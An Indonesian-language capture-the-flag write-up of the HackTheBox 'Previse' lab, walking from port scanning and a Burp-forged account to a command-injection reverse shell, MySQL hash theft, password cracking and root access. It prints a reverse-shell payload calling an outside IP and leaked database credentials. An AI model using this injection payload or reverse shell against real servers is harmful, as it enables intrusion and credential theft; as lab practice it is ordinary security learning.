# Hackthebox-Previse-WriteUp
Selamat satang di repository saya, di sini saya akan menuliskan writeup pada machine **Previse**

<p alingn=center><a href="https://app.hackthebox.com/machines/373" target="_blank"></a></p>

Sebelum saya memulai laporan saya saya akan pemperkenalkan kepada anda apa itu penetration testing. Penetration Testing atau disebut juga pentest adalah pengujian keamanan informasi dimana seorang pentester meniru serangan yang biasa sering terjadi untuk mengidentifikasi metode peretasan fitur keamanan aplikasi, sistem, atau jaringan. Pengujian ini dilakukan oleh pentester menggunakan serangan yang nyata, sistem yang nyata, dan data yang nyata menggunakan alat dan teknik yang sering dipakai oleh seorang hacker. Penetration Testing biasanya dilakukan bersamaan dengan Vulnerability Assessment (VA). Vulnerability Assessment adalah sebuah proses untuk mengidentifikasi risiko dan celah kerentanan pada aplikasi, sistem, ataupun jaringan. Sebagian besar pentest mencari kombinasi kerentanan pada satu atau lebih sistem untuk mendapatkan akses lebih dalam pada sistem yang menjadi target dibandingkan dengan hanya mengetahui satu macam kerentanan.

### Scanning Port
---
Di sini saya menggunakan **nmap** untuk scan port yang terbuka untuk public 

setelah melakukan scan port diketahui bahwa terdapat 2 port yang terbuka untuk public, yaitu port 80 dan 22. Port 80 umumnya berfungsi untuk web site dengan http:// dan port 22 berfungsi untuk ssh server.

Setelah saya buka ternyata web tersebut berisi login page


### Bruteforce directory
---
Setelah itu saya melakukan brute force attack pada web menggunakan tool Bernama **dirb** untuk mengetahui apakah terdapat url lain yang dapat dibuka secara langsung tanpa autentikasi

Dan saya tidak bisa mendapat apa apa kerena langsung ke direct ke login page, namun saya dapat mengetahui direktori yang ada setelah melewati login page.

### SQL Injection
---
Lalu saya mencoba lagi menggunakan sql injection sederhana (sapa tau bisa yakan :v)


**BOOOM!** ndak bisa bro, cari jalan lain :')

### Burp Suite
---
Saya menghidupkan proxy server dan menggunakan burpsuite dan mengaktifkan mode instercept

Lalu saya kirim ke repeater dan mengganti request seperti yang ada di gambar dan akun telah terbuat XD


### Eksekusi
---
Setelah melewati gerbang pertama (login page) saya menemukan sesuatu yang menarik 

Saya mendapat kedua file tersebut dari website dan dari sini maka diketahui m4lwhere adalah pemilik.
Setelah itu saya melihat isi dari folder sitebackup dan menemukan seperti gambar dibawah

Di sana saya menemukan exec() function yang mungkin bisa digguakan untuk rce dan mysql server
```
User root
Password mySQL_p@ssw0rd!:)
Database previse
```
>exec() dan eval() merupakan ide yang buruk dalam keamanan

Lalu saya mencoba mengakses logs.php lalu di intercept menggunakan burpsuite dan mengirimkan ke repeater

Lalu saya melakukan listen pada port 87 menngunakan payload ini untuk melakukan reverse shell
```
delim=comma%26/bin/bash+-c+'bash+-i+>+/dev/tcp/10.10.14.176/87+0>%261'
```

Lalu saya menggunakan payload berikut agar ~~banyak uang~~ (ada symbol $) dan masuk ke mysql server menggunakan username dan password yang tadi 
```python
python -c ‘import pty;pty.spawn(“/bin/bash”)’
```

Mantap jiwaaa saya bisa masuk ke mysql server, lalu saya akan mencuri password user m4lwhere
```sql
Select * from accounts;
```

Setelah saya mendapat hash passwordnya saya langsung mendecrypt menggunakan ~~john lennon~~ (eh maksud saya john the ripper)


Dayummm! Saya mendapatkan passwordnya, saya menghabiskan waktu sangat lama untuk mendapatkan passwordnya :’)

Setelah mendapatkan password karena port 22 terbuka saya mencoba untuk connect ke SSH

Di sini saya mendapatkan flag pertama (**user.txt**), Yeayyyy


### Privilege Escalation
---
Setelah itu saya menggunakan sudo -l untuk mengetahui pirintah sudo digunakan oleh siapa dan melihat isi file tersebut

Setelah itu saya mencoba mereverse shell root ke kali linux saya

Dan saya pun mendapat flag root.txt


# Terimaksih sudah membaca :)
semangat belajarnya bro :')

